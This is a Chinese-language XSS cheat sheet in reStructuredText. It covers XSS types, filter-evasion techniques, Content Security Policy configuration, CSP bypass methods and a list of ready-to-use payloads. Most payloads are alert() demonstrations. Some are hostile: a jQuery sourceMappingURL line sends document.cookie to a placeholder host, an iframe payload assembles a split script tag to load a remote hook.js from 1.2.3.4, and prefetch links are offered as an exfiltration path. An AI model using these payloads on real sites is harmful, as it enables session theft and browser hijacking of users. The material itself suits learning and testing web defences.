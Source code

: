 XSS
================================

分类
--------------------------------
反射型XSS
    一次浏览，最常见，最广泛
    e.g ``http://www.baidu.com<script>alert("hack")</script>``
储存型XSS
    危害较大，把相应脚本传到服务器上
DOM XSS
    类似储存型


技巧
--------------------------------
1. 利用<>标记
2. 利用html属性
    - href
    - lowsrc
    - bgsound
    - background
    - value
    - action
    - dynsrc

3. 利用回车拆分关键字
4. 利用编码绕过
    - jsfuck
    - String.fromCharCode
    - HTML
    - URL

5. 大小写混淆
6. 对标签属性值转码
7. 产生事件
8. css跨站解析


CSP
--------------------------------

CSP是什么？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


配置
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
########################################

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
########################################

+--------------------+----------------------------+------------------------------------------------------------------+
| 属性值             | 示例                       | 说明                                                             |
+====================+============================+==================================================================+
| *                  | img-src *                  | 允许从任意url加载，除了data:blob:filesystem:schemes              |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'none'             | object-src 'none'          | 禁止从任何url加载资源                                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'self'             | img-src 'self'             | 只可以加载同源资源                                               |
+--------------------+----------------------------+------------------------------------------------------------------+
| data:              | img-src 'self' data:       | 可以通过data协议加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| domain.example.com | ing-src domain.example.com | 只可以从特定的域加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| \*.example.com     | img-src \*.example.com     | 可以从任意example.com的子域处加载资源                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| https://cdn.com    | img-src https://cdn.com    | 只能从给定的域用https加载资源                                    |
+--------------------+----------------------------+------------------------------------------------------------------+
| https:             | img-src https:             | 只能从任意域用https加载资源                                      |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-inline'    | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-eval'      | script-src 'unsafe-eval'   | 允许一些不安全的代码执行方式，例如js的eval()                     |
+--------------------+----------------------------+------------------------------------------------------------------+

- ``none``：你可能期望不匹配任何内容
- ``self``：与当前来源相同，但不包含子域
- ``unsafe-inline``：允许内联Javascript和CSS
- ``unsafe-eval``：允许文本到JS的机制例如eval

配置范例
########################################

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

预加载
########################################
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具


302跳转
########################################

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

其他
########################################

- CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git pr <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel=”import” />``
- 利用object

Payload
--------------------------------

- 常用
    ``<script>alert(/xss/)</script>``
- 伪协议
    ``<table background="javascript:alert(/xss/)"></table>``
- Chrome XSS auditor bypass with HPP
    ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- 事件属性
    ``<img src=x onerror="alert(/xss/)" />``
- 长度限制

:: 

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

- jquery sourceMappingURL
    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``
- 图片名
    ``"><img src=x onerror=alert(document.cookie)>.gif``

- 过期的payload
    - src=javascript:alert基本不可以用
    - css expression特性只在旧版本ie可用
- css
    ``<div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>``

- iframe

::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- meta
    ``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``

参考链接
--------------------------------

- `w3c <https://w3c.github.io/webappsec-csp/>`_
- `https://content-security-policy.com <https://content-security-policy.com/>`_
